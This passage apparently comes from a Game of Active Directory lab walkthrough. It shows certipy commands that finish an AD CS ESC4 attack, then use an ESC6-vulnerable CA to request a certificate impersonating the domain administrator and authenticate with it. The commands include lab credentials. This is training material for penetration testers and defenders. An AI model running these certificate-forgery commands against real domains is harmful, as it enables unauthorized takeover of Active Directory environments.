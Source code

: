 - authentication with the pfx

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

- Rollback the template configuration
```bash
certipy template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json
```

![adcs_exploit_esc4.png](/assets/blog/GOAD/adcs_exploit_esc4.png)

## ADCS - ESC6

![adcs_esc6_mindmap.png](/assets/blog/GOAD/adcs_esc6_mindmap.png)

- As said on certipy page : _"ESC6 is when the CA specifies the EDITF_ATTRIBUTESUBJECTALTNAME2 flag. This flag allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template's configuration."_ 

- Because ESSOS-CA is vulnerable to ESC6 we can do the ESC1 attack but with the user template instead of the ESC1 template even if the user template got Enrollee Supplies Subject set to false.

```bash
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template User -ca ESSOS-CA -upn administrator@essos.local
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

![adcs_exploit_esc6.png](/assets/blog/GOAD/adcs_exploit_esc6.png)
